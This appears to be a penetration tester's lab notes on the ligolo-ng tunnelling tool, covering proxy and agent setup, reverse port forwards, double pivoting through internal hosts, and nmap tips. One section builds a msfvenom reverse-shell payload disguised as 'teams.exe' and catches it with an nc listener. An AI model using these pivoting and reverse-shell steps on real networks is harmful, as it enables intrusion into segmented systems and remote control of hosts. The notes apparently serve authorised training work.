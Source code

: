 # ligolo-ng

## Overview

Ligolo-ng is a simple, lightweight and fast tool that allows pentesters to establish tunnels from a reverse TCP/TLS connection using a tun interface (without the need of SOCKS).


## Usage

Example Scenario:

Lets say that we are connected to a vpn and we can talk with a machine called MS01. Then in this machine we can talk to a DC01. Ligolo can help us tunnel through MS01 directly to DC01, so that we can do from our local machine this:

    ping DC01

First download the ligolo agent to the MS01 machine and the ligolo proxy to run it in our local machine

Then in the localhost create the ligolo interface:

    sudo ip tuntap add user kali mode tun ligolo

Then start the interface:

    sudo ip link set ligolo up

Then start the proxy in the localhost:

    ./proxy -selfcert -laddr 0.0.0.0:<desired_proxy_port>

Then on the machine MS01, start the agent:

    agent.exe --connect <ip_of _the_proxy>:<port_of_the_proxy> -retry -ignore-cert

Back on the proxy, after the agent has joined:

    session
    <choose the session for the agent that just connected>
    start

Then add the route to DC01 to the interface:

    sudo ip route add <subnet_mask_dc01> dev ligolo

For example

    sudo ip route add 10.10.1.0/24 dev ligolo

Finally you should be able now to simple do:

    ping DC01

And the icmp packets will be route through MS01 to DC01

## Reverse Port Forward through agent to proxy

When the proxy is running in localhost. In a ligolo session, use the listener_add to start a reverse port forward through the agent to the proxy:

    listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4321 --tcp

This will create a TCP listening socket on the agent (0.0.0.0:1234) and redirect connections to the 4321 port of the proxy server.

## Reverse shell Through agent to proxy

Let's say we have a server DC01 that can connect to A1, but not to our localhost. Our localhost as a ligolo proxy set and A1 has a ligolo agent running and a session has been started between our localhost proxy and the agent of A1. To start a revershell from DC01 to our local host we can do:

First in the proxy we create a listener in the session of A1.

```
listener_add --addr 0.0.0.0:443 --to 127.0.0.1:443 --tcp
```

This means that any connection to A1 on port 443 will be forwards to our localhost:443.

Then we create a msfvenom payload from DC01 to A1 port 443:

```shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=[A1_IP_ADDRESS] LPORT=443 -f exe -o teams.exe
```

We create our nc listener on port 443 in our localhost

```shell
nc -nvlp 443
```

Finally we upload the teams.exe payload to DC01 and run it. If there is an error with our ligolo listener, we can remove it and instead do port forwarding from A1 to our localhost with chisel or ssh:

```shell
ssh -i root.key -R [A1_IP_ADDRESS]:443:0.0.0.0:443 root@[A1_IP_ADDRESS] -vN
```


## Double Pivoting

Lets consider an environment with:

localhost -> DMZ01 -> DC01 -> I01

To be able to ping I01 from our localhost we need to create a double pivot from DMZ01 to localhost and then from DC01, through DMZ01 to our localhost.

1- We setup the proxy in our localhost:

```shell
#in the localhost
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up
#this creates a proxy on the default port of 11601
./ligolo-proxy -selfcert
```

2- Create an agent in DMZ01 that connects to our proxy:

```shell
./ligolo-agent --connect <localhost_ip>:11601 -retry -ignore-cert
```

3- Back in the localhost proxy, create the route to dmz01, and start the session:
```shell
sudo ip route add 172.16.0.0/16 dev ligolo
#choose the session in the proxy and start
```
4- Now, we want to use agent in DC01, that creates a session in our localhost:11601, to do this, we will need to reverse porforward the connections to 11601 in DMZ01 to our localhost:

```shell
#in the proxy, on the dmz01 session create a listener
listener_add --addr 0.0.0.0:11601 --to <localhost_ip>:11601 --tcp
#this should create a port in DMZ01 listenning to connections, we can check this with
netstat -ant|grep 11601
```
We should see the ipv4 and ipv6 listeners:

    tcp        0      0 0.0.0.0:11601           0.0.0.0:*               LISTEN
    tcp6       0      0 :::11601                :::*                    LISTEN

Now sometimes the listener only creates a port only listening in ipv6, not in ipv4 as well. If this happens we need to stop the listener and reverse porfoward in some other way like:

```shell
ssh -R <DMZ01_ip_address>:11601:0.0.0.0:11601 root@<DMZ01_ip_address>
```

5- Moving on to start an agent in DC01. We are goin to need a new tunnel for the connection between DC01 agent and the proxy. This new tunnel cannot use the ligolo interface, because this interface is already being used for the tunnel between the proxy and DMZ01, so lets create a new interface:

```shell
sudo ip tuntap add user kali mode tun ligolo-double
sudo ip link set ligolo-double up
```

6- Now in the DC01, start the agent connecting to DMZ01 (which will porforward to our localhost):

```shell
./ligolo-agent --connect <DMZ01_ip_address>:11601 -retry -ignore-cert
```

7- We should see a new session being created on the proxy. Choose this session and start the new tunnel:

```shell
#in the ligolo proxy
tunnel_start --tun ligolo-double
```

8- The only thing missing is to route the requests to I01, through this new interface. For example:

```shell
sudo ip route add <I01_ip_address>/32 dev ligolo-double
sudo ip route add 172.16.9.25/32 dev ligolo-double
```

9- We can finally ping I01:

```shell
ping I01
```


## Cleaning up

After using ligolo, you can delete the created interface with:

```shell
sudo ip link delete ligolo
```

This will also delete the routes created.

## Tips

When using nmap, you should use --unprivileged or -PE to avoid false positives.

```shell
nmap -Pn -oN dc01_nmap.out --unprivileged DC01.INLANEFREIGHT.LOCAL

nmap -Pn -oN dc01_nmap.out --unprivileged -iL live_hosts
```


Creating proxy with certficate

```shell
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
./proxy -certfile cert.pem -keyfile=key.pem -laddr 0.0.0.0:8888
```


## More Information

https://github.com/nicocha30/ligolo-ng